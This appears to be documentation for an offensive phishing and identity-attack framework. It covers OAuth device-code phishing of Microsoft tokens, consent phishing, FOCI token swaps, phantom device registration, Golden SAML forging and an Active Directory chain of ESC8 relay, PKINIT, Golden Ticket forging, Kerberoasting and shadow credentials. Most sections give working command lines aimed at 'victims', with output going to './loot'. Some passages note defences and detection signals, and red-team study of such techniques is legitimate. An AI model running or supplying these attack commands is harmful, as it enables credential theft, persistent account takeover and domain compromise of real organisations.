





# Identity above the session

This document covers everything above the captured session: the OAuth device-code grant
(RFC 8628), the consent and token manipulations that follow it - ConsentFix with
`prompt=none`, the FOCI scope swap, the PRT and the phantom device, and app-only
persistence - the Golden SAML assertion, and the Active Directory chain that ends at the
krbtgt key. Each rung is stated with what it needs beyond a credential and what stops it.
The session tier in `core/proxy.py` is the floor: it is the only tier a device-bound,
CAE-aware, passkey-protected session defeats.

## The tier ladder



Read the ladder by what each rung needs beyond a credential, and what each survives.

| Tier | Rung | What it needs | Survives password reset | Survives MFA reset | Survives session revoke |
|---|---|---|---|---|---|
| 0 | Provider infrastructure | a network or registrar position | yes | yes | yes |
| 0 | Federation trust | a domain with a published federation record | yes | yes | yes |
| 0 | CA private key | AD CS reachability, or a template that issues for anyone | yes | yes | yes |
| 0 | IdP signing key | read access to the IdP's certificate store | yes | yes | yes |
| 0 | Sync account | the connector host, or the sync service principal | yes | yes | yes |
| 1 | Endpoint root | code execution on the device | yes | yes | yes |
| 2 | The session | nothing - a click | no | no | no |
| 2 | App-only persistence | admin consent (or the user's) | yes | yes | yes |
| 3 | The paste layer | a user who pastes | yes | yes | yes |

The tier-2 rows split: a stolen session dies at a password reset, an MFA re-enrolment or a
session revocation; app-only persistence is untouched by all three, because it is an
application credential, not a user session. The tier-0 and tier-1 rows need keys or code on
a host, which is why a credential reset does not reach them.

The paste layer's survival is not settled by code: `core/clickfix.py` builds the page and
stores no survival logic, so whether a password change ends it depends on what the victim
actually pasted. It sits with the tier-2 rows above - a pasted session credential dies at a
session revocation, a pasted application credential does not.

## Device-code grant (RFC 8628)

`--devicecode PROVIDER` is a second path to the same prize as the reverse proxy in
`core/proxy.py`, and in several ways a harder one to defend against. The proxy needs the
victim on a page we serve, on a domain we control. The device-authorization grant needs
none of that: start the flow with the identity provider, the provider hands back a short
code, and the victim approves it on the provider's own verification page. MFA and a passkey
both work there, because the ceremony happens where it is supposed to.



### CLI flags

Every flag below exists in `bytephisher.py`.

| Flag | Meaning |
|---|---|
| `--devicecode PROVIDER` | device-authorization mode; providers: `microsoft`, `microsoft-graph`, `google`, `okta`, `github`, `custom` |
| `--dc-client-id ID` | public client id of YOUR app with the device-code flow enabled; required, no default |
| `--dc-tenant T` | tenant for microsoft/okta (default: the provider's) |
| `--dc-scope SCOPES` | override the provider's default scope |
| `--dc-base URL` | public base URL of the landing (default: the tunnel URL) |
| `--dc-brand NAME` | title on the landing page (default: Account) |
| `-p`, `--port` | local port (default 8080) |
| `-t`, `--tunneler` | cloudflared / localhost_run / bore / pinggy / ngrok / all / none |
| `--campaign NAME` | tag the captures with a campaign name |

```bash
# register an application with the device-code flow enabled, then:
python3 bytephisher.py --devicecode microsoft \
    --dc-client-id <your-public-client-id> \
    --dc-tenant contoso.onmicrosoft.com \
    --dc-scope "offline_access https://graph.microsoft.com/Mail.Read" \
    --dc-base https://<your-tunnel-host> \
    --port 8080 -t cloudflared
```

`--dc-client-id` is required and has no default: first-party CLI ids change and are
policy-dependent per tenant, and shipping a guessed one produces a silent failure.

### Providers

The device endpoint and the verification URI are read from `core/devicecode.py` (`PROVIDERS`).

| Provider | Device endpoint | Live-verified |
|---|---|---|
| `microsoft`, `microsoft-graph` | `.../{tenant}/oauth2/v2.0/devicecode` | yes - the probe answered `unauthorized_client`/`invalid_grant` at `/devicecode` and `/token` |
| `google` | `https://oauth2.googleapis.com/device/code` | yes - the probe answered a real OAuth error at `/device/code` and `/token`; `/devicecode` is a 404 |
| `okta` | `{issuer}/v1/device` | documented (needs a tenant to probe) |
| `github` | `https://github.com/login/device/code` | documented only - an unregistered client id gets a 404 `Not Found` |
| `custom` | `{tenant}/devicecode` | for a lab IdP, Keycloak, Authentik |

The landing page (`/dc/<tag>`) shows the code, offers a copy button and a button that opens
the real `verification_uri`, and polls `/__bh/dc/<tag>/status` so it can tell the victim they
are done. Nothing on it imitates the provider - that is the point of the technique, and
`tests/test_devicecode.py` asserts it (no `login.microsoftonline.com`, no `password` field
anywhere in the page).

### The vault write

Tokens are vaulted, not just printed. On approval, the manager's `on_token` callback writes
the access token, the refresh token, the granted scopes and the expiry into the session
record by calling `session.add_oauth()`:

```python
sess_mod.add_oauth(vault_rec, rec["tokens"],
                   provider=rec["provider"], client_id=args.dc_client_id,
                   source="devicecode", tenant=args.dc_tenant or "",
                   issuer=flow.issuer)
```

- `add_oauth(rec, tokens, provider="", client_id="", scopes=None, source="devicecode", tenant="", issuer="")` keeps only the fields a later action needs (access token, refresh token, id token, granted scope, expiry) and records the rest under `extra`.
- The record is keyed `dc-<tag>` and saved in the same database as every other session, so a fresh process reads the token, its scopes and its expiry back out of the database after a restart (`oauth_valid` and `oauth_summary` read them back).
- If the write itself fails, the full token set is spooled to `data/dc-failed-<tag>.json` and that path is printed - the refresh token is never lost silently.

## Consent and token manipulation

These are the paths that turn a captured identity, or a single approval, into something that
outlives the session it came from.



| Technique | Module | What it needs | What stops it |
|---|---|---|---|
| ConsentFix (`prompt=none`) | `core/consentfix.py` | a live session at the provider (the victim is already signed in) | the provider answering `login_required` (no session), `consent_required` (the app is not consented), or `access_denied`; a tenant that requires admin consent for the app |
| FOCI scope swap | `core/foci.py` | a refresh token in a first-party client family, plus another first-party client id | the tenant refusing the exchange - CA policy, admin consent and conditional access still apply; a refused scope is recorded and the walk continues; no CLI flag wires it (`core/foci.py` is reached programmatically) |
| PRT / phantom device | `core/prt.py` | the captured identity can register a device in the tenant (a write to `/devices`) | conditional access requiring a compliant device, requiring a hybrid-joined device, or a device-registration allow-list; de-registering the device; `prt.posture()` reports these before anything is attempted |
| App-only persistence | `core/appconsent.py` | `Application.ReadWrite.All` (or Global Administrator / Cloud Application Administrator), plus admin consent for the scopes | removing the `oauth2PermissionGrant` and then the application - four audit entries: the registration, the permission change, the consent grant, the credential add |
| User-consent phishing | `core/appconsent.py` (`--consent-plan`) | a user who will approve your app on the provider's real consent screen; no administrator needed | a tenant that requires admin consent for all apps; user consent disabled or restricted to verified publishers; the user reading or reporting the consent screen |
| OAuth authorization-code relay | `core/oauth.py` (`--oauth`) | the victim's browser goes to the real provider and the code comes back to the campaign | the provider's client-side integrity checks; a device-bound or CAE-aware session (the relayed code is bound to the victim's device) |

`--consentfix` and `--consent-plan` build the URLs for a `microsoft|google|okta|github|custom`
provider; `--token-keepalive SID` rotates a stored refresh token on a schedule so it never
dies from inactivity, and every rotation consumes the old one. A PRT plan (`--prt-plan`)
reads a JSON file with keys `tokens`/`claims`/`tenant_policy` and reports what the tenant
would accept before a phantom device registration is attempted; the registration call itself
(`prt.register_device`) is programmatic.

Key facts that decide whether each path works:

- ConsentFix defeats a device-bound or CAE-aware session that plain AiTM cannot: a code issued inside the victim's own live session produces a token minted for THEIR device, so the binding control never fires (`core/consentfix.py` plans the silent URL first for exactly this reason).
- FOCI's client ids are the published first-party set (Azure CLI, Office, Teams, OneDrive, Outlook Mobile, Graph PowerShell, Portal). The module's header records a fabricated `excel` GUID that was removed rather than guessed - a wrong client id in a FOCI walk exchanges against nothing or the wrong app.
- `core/appconsent.py` refuses to guess permission ids: `role_ids()` reads them from the tenant, because a guessed GUID either grants nothing or grants the wrong permission.
- `core/prt.py` cannot reproduce the TPM-bound half off-device, so a phantom device is a new registration, not a copy of the victim's.

## Golden SAML

Everything else in this framework steals or borrows an identity. This forges one, and the
resource that accepts it does so legitimately, because the signature is real.



### The assertion

`core/samlforge.py` builds the assertion and signs it.

- The assertion carries the issuer, the audience, the subject, the validity window, the conditions, and an `AttributeStatement` - which is where the role claim goes. That claim is the difference between "authenticated as the user" and "authenticated as an administrator". `--saml-role` writes into `ROLE_CLAIMS[0]` (`.../identity/claims/role`).
- The signature is enveloped XMLDSig (RSA-SHA256 by default, SHA-1 available for older relying parties), over a canonical form, with the digest computed over the canonicalised assertion (`sign(xml_text, key_pem="", cert_b64="", signer=None, reference_id="", digest="sha256")`).
- The signer is pluggable: `cryptography` (an optional dependency) does the real RSA work, and a test injects its own signer to verify the digest, the reference and the enveloped placement without a key.

### The signing key requirement

The module refuses to sign without the IdP's token-signing key. An unsigned assertion is not a
forged one - every relying party rejects it - so it raises with the reason instead of emitting
something that fails at the ACS endpoint. A key that cannot sign (a key-agreement key rather
than a signing key) is refused too. The key itself lives on the IdP host: that is a different
rung (endpoint root), and the tool says so rather than implying it can read it.

```bash
# the plan: what it needs, and what the defender sees
./bytephisher.py --saml-plan --saml-issuer https://adfs.contoso.test/adfs/services/trust \
                 --saml-audience https://sp.contoso.test/saml

# an assertion (unsigned unless --saml-key is given; the output line says which)
./bytephisher.py --saml-assert admin@contoso.test \
                 --saml-issuer https://adfs.contoso.test/adfs/services/trust \
                 --saml-audience https://sp.contoso.test/saml \
                 --saml-role "Domain Admins" --saml-out ./saml/assertion.xml
```

The unsigned output is deliberate: it is the shape, and it is labelled unsigned in the same
line that reports the file. Passing `--saml-key` with the IdP's signing key produces a signed
response; without the key, no pretending. `--saml-cert` places the signing certificate
(base64 DER) in `KeyInfo`.

### Forged assertion versus stolen session

| Control | A stolen session (AiTM, tier 2) | A forged assertion (Golden SAML) |
|---|---|---|
| Password change | stops it | no effect |
| MFA / passkeys | stops it | not consulted |
| Device-bound session (DBSC) | stops it | not consulted |
| CAE-aware session | stops it | not consulted |
| Session revocation | stops it | no effect |
| Revoke the user's tokens | stops it | no effect |
| Roll the signing certificate | no effect | stops it |

The last row is the only remediation, and it invalidates every forged assertion at once -
which is why it is also the loudest.

The detection that works: correlate the SP's sign-ins with the IdP's. A sign-in at the
relying party with no corresponding sign-in at the IdP is the signal; nothing on the wire
looks wrong, because nothing on the wire is wrong. IssueInstant outliers show up when the
SP's logs are compared against the IdP's. Key hygiene - a non-exportable signing key and an
IdP host unreachable from the identity plane - is the rung that has to fail for the forge to
work.

## Active Directory chain

The identity side of this framework ends at a session. This is the other side: what a session
can turn into when the target is Active Directory, and why the last rung is the same rung as
Golden SAML.



### What each step needs, and what stops it

| Step | Module | Needs | Stops it |
|---|---|---|---|
| Directory query | `core.ldap` | a bind (or an anonymous one, which most DCs refuse) | LDAP signing/channel binding, or no read rights |
| ESC analysis | `core.adcs_esc` | read access to the templates | templates hardened (no enrollee-supplied subject, manager approval, EKUs restricted) |
| ESC8 relay | `core.relay` | a CA offering NTLM, no EPA, and a trigger | Extended Protection, HTTPS + channel binding, WebClient disabled |
| PKINIT | `core.pkinit` | the certificate WITH its private key | a CA not in NTAuth, strong certificate binding, clock skew |
| Golden Ticket | `core.goldenticket` | the krbtgt key | krbtgt rotated twice, PAC validation, correlation of tickets against AS-REQs |
| Roasting | `core.kerberos` | preauth off (AS-REP) or any domain user (TGS) | preauth enabled everywhere, AES-only domains, long random service passwords |
| Shadow credentials | `core.shadowcred` | write access to `msDS-KeyCredentialLink` | the attribute audited (event 5136), no write ACE |

### LDAP recon

`--ldap HOST` answers the questions the AD attacks ask. `--ldap-query` takes one of `asrep`
(no preauth), `kerberoast` (SPNs), `templates` (certificate templates), `cas` (CAs + flags),
`shadow`, `domain` (lockout policy), `rootdse`.

```bash
# 1. who is worth asking
./bytephisher.py --ldap dc.contoso.test --ldap-user 'CONTOSO\alice' --ldap-pass '...' \
                 --ldap-query kerberoast

# 2. the CA's posture, and the ESC conditions the directory reveals
./bytephisher.py --adcs-probe http://ca.contoso.test
./bytephisher.py --ldap dc.contoso.test --ldap-query templates --adcs-esc /tmp/t.json
./bytephisher.py --adcs-esc /tmp/t.json

# 3. ESC8: the certificate comes back to whoever authenticated
./bytephisher.py --relay-start http://ca.contoso.test --relay-listen 80

# 4. the certificate becomes a TGT, and the TGT becomes any identity
./bytephisher.py --pkinit-plan --pkinit-realm CONTOSO.TEST
./bytephisher.py --golden-forge --realm CONTOSO.TEST --krbtgt-hash <nt-hash> \
                 --golden-sid S-1-5-21-... --golden-groups S-1-5-21-...-512 --out ./loot
export KRB5CCNAME=FILE:./loot/golden.ccache
```

### The ESC families

`core/adcs_esc.py` reads the conditions out of the template attributes:

- ESC1: `msPKI-Certificate-Name-Flag` bit 0 (`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`) - the requester chooses the subject. Reported `CONFIRMED` only when the template also has no manager approval and an EKU that permits client authentication.
- ESC2: an "any purpose" EKU (`2.5.29.37.0`).
- ESC3: the Certificate Request Agent EKU (`1.3.6.1.4.1.311.20.2.1`).
- ESC6: the CA's `flags` bit `0x00040000` (`EDITF_ATTRIBUTESUBJECTALTNAME2`) - the CA honours a SAN for every template.
- ESC8: relaying NTLM to the HTTP enrolment endpoint - handled by `core.relay`, not the template reader.
- ESC4 (write access to the template) is stated as SUSPECTED, because the ACE lives in `nTSecurityDescriptor` and has to be parsed against the caller's SIDs; the module does not invent it.

`--adcs-probe URL` reports only what an HTTP request can observe: whether the enrolment endpoint
is reachable, whether it offers NTLM (the ESC8 precondition), whether it answers without
authentication, and whether it discloses the template list. ESC findings that live in the
directory are marked `not_visible_from_here`.

### NTLM relay, PKINIT, golden ticket, roasting, shadow credentials

- NTLM relay (ESC8): `--relay-plan TARGET_URL` prints the chain (probe the CA, coerce the victim, relay its NTLM, take the certificate); `--relay-start TARGET_URL --relay-listen PORT` runs the relay - the listener holds one authentication open and forwards it, and the target's answer goes back to the client (port 80 is the one WebClient uses). `--coerce-plan` covers the trigger. NTLM over HTTP has no channel binding, so an authentication meant for the CA is indistinguishable from one that reached it. The relay refuses to start unless `--adcs-probe` shows NTLM offered.
- PKINIT: `--pkinit-plan --pkinit-realm REALM` prints the step that turns an ESC8 certificate into a TGT. It needs the certificate AND its private key, because the KDC verifies a signature.
- Golden Ticket: `--golden-plan` prints the plan; `--golden-forge --realm REALM --krbtgt-hash HEX --golden-sid SID` forges a TGT for any user and writes `golden.kirbi` and `golden.ccache` to `--out`. `--golden-user` (default Administrator), `--golden-rid` (default 500) and `--golden-groups` (e.g. the domain SID + `-512` for Domain Admins) build the PAC.
- Roasting: `--kerberos-plan` prints what the KDC hands out and the hashcat mode for each etype (AS-REP 18200, Kerberoast 13100); `--roast USER --realm REALM [--roast-spn SPN] [--kdc HOST]` requests one account's crackable blob. The LDAP query says who is worth asking (`--ldap-query asrep|kerberoast`).
- Shadow credentials: `--shadow-plan [--shadow-target DN]` prints the write of a key credential into an object's `msDS-KeyCredentialLink`; `--shadow-write DN` performs it through `--ldap` (needs `--ldap-user`/`--ldap-pass` with write access); `--shadow-remove VALUE` is the clean-up path. The write is event 5136 on that object and is audited.

### The two keys that matter

The krbtgt key encrypts every TGT in the domain. Holding it means holding the domain: a forged
ticket for any user, any group, validated by the DC with the same key it signed with. A
password reset does not touch it, and the remediation is a double rotation - which is why it is
an emergency, not a maintenance task.

A service account's key (Kerberoasting) is protected by that account's password, and a service
ticket is requested by any ordinary domain user. Nothing fails, nothing locks, and the request
looks like a service being used - which is why it is the quiet one.

## What each rung cannot do

This is the limits table, stated as facts. A posture report that overstates these is worse than
no posture report.

| Path | Why a session-based tool cannot do it |
|---|---|
| Provider infrastructure | needs a network/registrar position, not a credential |
| Endpoint root | needs code execution on the device; a browser session is not that |
| CA private key | needs the CA's key store; the tool can only reach the enrolment endpoint |
| IdP signing key | needs the IdP server's certificate store |
| Sync account | needs the connector host or the sync principal's own token |

Those five are reported as `not_reachable_from_a_session` by `core/tier0.py`, whose per-path
verdicts are `open` (a live probe confirmed it), `needs_a_call` (the rights are in the token;
the call itself decides), `blocked` (a live probe refused it), `no_rights_visible` (the token
carries none of the rights the path needs), and `not_reachable_from_a_session`.

A second set of limits is about verification, not reachability. These are stated as such in the
modules and are not demonstrable inside the repository:

| Not verifiable here | What it would need |
|---|---|
| A real KDC accepts the forged ticket | a live domain |
| A real DC accepts a shadow credential | a live domain |
| A real CA issues for a chosen subject | a live domain |

What the repository does verify, with tests: the LDAP BER stack against a real directory
server, the ESC findings from real attribute shapes, the relay end to end (a fake CA hands the
certificate to the client through the relay), the RC4-HMAC cipher against the published
keystream vector and a round-trip, and every refusal firing with a reason. The device-code
suite drives a fake RFC 8628 provider through the pending -> slow_down -> token sequence and
its refusals, and probes Microsoft's and Google's real endpoints. `core/samlforge.py` refuses
to sign without a key, rather than emitting an assertion that fails at the ACS endpoint.
